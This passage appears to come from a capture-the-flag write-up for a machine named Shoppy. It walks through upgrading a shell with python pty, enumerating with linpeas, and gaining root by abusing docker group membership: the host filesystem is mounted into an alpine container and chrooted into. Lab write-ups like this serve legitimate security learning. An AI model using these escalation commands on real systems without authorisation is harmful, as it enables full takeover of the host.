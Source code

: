![deployLogin.png](/assets/img/Shoppy/deployLogin.png)

Upgrading TTY:
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#### Linpeas

Enumerating system as user `deploy` with `linpeas` revealed that user is in `docker` group.

![linpeas1.png](/assets/img/Shoppy/linpeas1.png)

### Abusing Docker Group Permissions

Listing all Docker Images:
```shell
docker images
```

There is alpine image installed which we can leverage to spin up a container that will run a single command.

```shell
docker run --rm -it alpine sh -c "whoami"
```

![escalation1.png](/assets/img/Shoppy/escalation1.png)

Container is running with root privileges so according to [gtfobins](https://gtfobins.github.io/gtfobins/docker/) we can spawn shell with:

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
